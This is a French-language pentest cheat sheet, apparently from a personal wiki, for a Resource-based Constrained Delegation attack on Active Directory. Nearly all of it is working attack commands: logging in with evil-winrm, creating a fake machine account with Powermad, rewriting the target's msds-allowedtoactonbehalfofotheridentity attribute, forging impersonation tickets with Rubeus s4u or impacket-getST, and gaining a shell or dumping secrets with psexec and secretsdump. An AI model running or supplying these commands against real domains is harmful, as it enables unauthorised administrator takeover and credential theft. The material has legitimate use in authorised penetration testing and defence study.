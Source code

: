 ```yaml
---
description: >-
  Je me demande si ajouter une machine au domaine avec un compte et réaliser
  directement les commandes powershell dessus ne fonctionne pas également.
---
```


# Resource-based Constrained Delegation

_**Objectif :** Devenir administrateur d'un objet ordinateur (\<MACHINE-CIBLE>)._

_**Note :** Cette attaque est possible si un utilisateur dispose_

* _Des droits "GenericAll" sur un objet ordinateur (\<MACHINE-CIBLE>)._
* _Du droit "CanPSRemote" sur une machine du domaine (MACHINE-DOMAINE)._

#### Connexion à une machine du domaine

<pre><code><strong>$ evil-winrm -u "&#x3C;USER>" -p '&#x3C;PASSWORD' -i &#x3C;IP-MACHINE-DOMAINE> -s /home/kali/tools/Conditionsme code
</strong>#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe</code></pre>

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```
